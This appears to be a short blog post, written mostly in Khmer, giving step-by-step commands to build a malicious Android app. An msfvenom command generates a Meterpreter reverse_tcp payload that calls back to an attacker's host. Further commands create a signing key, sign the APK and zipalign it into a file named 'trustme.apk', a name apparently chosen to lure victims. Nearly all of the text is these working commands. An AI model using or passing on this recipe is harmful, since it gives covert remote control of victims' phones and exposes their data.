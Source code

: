 ```yaml
---
title: "Android H4cking: Creating Malicious APK Payload"
date: 2025-05-21T11:00:00+07:00
description: របៀបបង្កើត payload លើប្រព័ន្ធ android
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- payload
- metasploit
categories:
- C2
- MSFvenom
series:
- Android
image: images/feature3/terminal.gif
---
```


#### តម្រូវការ
* ziplign
* jarsigner
* keytool

#### ប្រើប្រាស់ Metasploit ដើម្បីបង្កើត Android Payload

{{< highlight zsh "linenos=false" >}}
msfvenom --platform android -p android/meterpreter/reverse_tcp lhost=192.168.13.X lport=4444 R -o pload.apk
{{< / highlight >}}

#### របៀប Sign ឯកសារ APK - បង្កើត Keystore

{{< highlight zsh "linenos=false" >}}
keytool -genkey -V -keystore key.keystore -alias Android -keyalg RSA -keysize 2048 -validity 10000

// បញ្ចូលលេខសំងាត់របស់ RSA និងព័ត៌មានឲ្យបានត្រឹមត្រូវ
{{< / highlight >}}

#### របៀប Sign ឯកសារ APK - Sign Payload

{{< highlight zsh "linenos=false" >}}
sudo apt-get install openjdk-21-jdk-headless
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore pload.apk Android

// បញ្ចូលលេខសំងាត់របស់ RSA ឲ្យបានត្រឹមត្រូវ
{{< / highlight >}}

#### របៀប Sign ឯកសារ APK - Verify Payload

{{< highlight zsh "linenos=false" >}}
jarsigner -verify -verbose -certs pload.apk
{{< / highlight >}}

#### របៀប Sign ឯកសារ APK - Verify payload into new file 

{{< highlight zsh "linenos=false" >}}
zipalign -v 4 pload.apk trustme.apk
{{< / highlight >}}

ឥឡូវនេះអ្នកទទួលបាន Android Payload ដែលពេញលេញមួយឈ្មោះថា trustme.apk ៕
